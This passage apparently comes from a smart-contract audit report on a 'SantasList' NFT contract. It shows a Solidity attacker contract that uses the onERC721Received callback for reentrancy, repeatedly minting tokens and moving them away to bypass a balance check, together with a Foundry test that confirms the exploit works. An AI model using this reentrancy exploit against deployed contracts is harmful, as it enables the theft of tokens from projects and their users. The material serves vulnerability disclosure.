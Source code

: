 ```
    }

    function attack() public onlyOwner {
        // Call the vulnarable function.
        santasList.collectPresent();
    }

    // When msg.sender is a contract,
    // _safeMint from SantasList will trigger onERC721Received()
    function onERC721Received(address from, address, /*to*/ uint256 tokenId, bytes memory /* data */ )
        public
        returns (bytes4)
    {
        if (counter < WISHED_AMOUNT_OF_TOKENS) {
            // Each time transfer tokens to attacker
            // in order to bypass balance check in collectPresent()
            santasList.transferFrom(from, owner(), tokenId);
            counter++;
            santasList.collectPresent();
        }

        counter = 0;

        // Return onERC721Received.selector
        // in order not to revert in _safeMint() -> __checkOnERC721Received()
        return 0x150b7a02;
    }
}
```
A test below confirms that the attack succeeds:
```
function testCollectPresentAttack() public {
    // Assume that the attacker is someone with e.g. NICE status
    vm.startPrank(santa);
    santasList.checkList(attacker, SantasList.Status.NICE);
    santasList.checkTwice(attacker, SantasList.Status.NICE);
    vm.stopPrank();

    // Setting the time after Christmas
    vm.warp(santasList.CHRISTMAS_2023_BLOCK_TIME() + 1);

    // Confirm that the attacker had no tokens before the attack
    assertEq(santasList.balanceOf(attacker), 0);

    // Perform the attack
    vm.prank(attacker);
    attackerContract.attack();

    // Confirm that the attacker now has wished amount of tokens
    assertEq(santasList.balanceOf(attacker), attackerContract.WISHED_AMOUNT_OF_TOKENS());
}
```
